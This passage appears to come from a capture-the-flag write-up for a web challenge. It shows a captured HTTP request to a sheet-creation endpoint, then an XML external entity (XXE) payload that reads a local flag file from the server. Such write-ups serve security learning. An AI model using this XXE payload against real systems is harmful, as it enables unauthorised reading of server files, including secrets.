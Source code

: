 ```http
POST /createSheets HTTP/1.1
Host: challenge.ctf.games:30278
Content-Length: 321
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://challenge.ctf.games:30278
Referer: http://challenge.ctf.games:30278/createSheets
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJqb2huX2RvZSIsInJvbGUiOiJ1c2VyIn0.pNGsWOaNM05ak48_gkmNBuHjIHLQr6LP7G4hWeue_0k; session=eyJjc3JmX3Rva2VuIjoiZjcxY2I1NzdiMmRjNTRlZWQ2NDU5NzA5NGI3NzFiNjM2YmQ2MDAyNiJ9.ZTzjvA.gSaBgCbbljgKr2VfA-AsB59AGPY
Connection: close

<sheet title="Dream Sheets">  
                <row><cell>Bed Size</cell><cell>full</cell></row> 
                <row><cell>Color</cell><cell>#805252</cell></row> 
                <row><cell>Thread Count</cell><cell>400</cell></row>
                <row><cell>Quantity</cell><cell>1</cell></row>
                </sheet>
```

So, look if this library has some kind of CVEs and I found that it has a XXE injection by seeding this payload it could access the local system file, and they've already told us where the flag is:

```xml
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///home/challenge/flag.txt"> ]> <sheet title="Sheet"><row><cell>vulnerable</cell></row><row><cell>&ent;</cell></row> </sheet>
```

![](/assets/img/uploads/20231028092120.png)
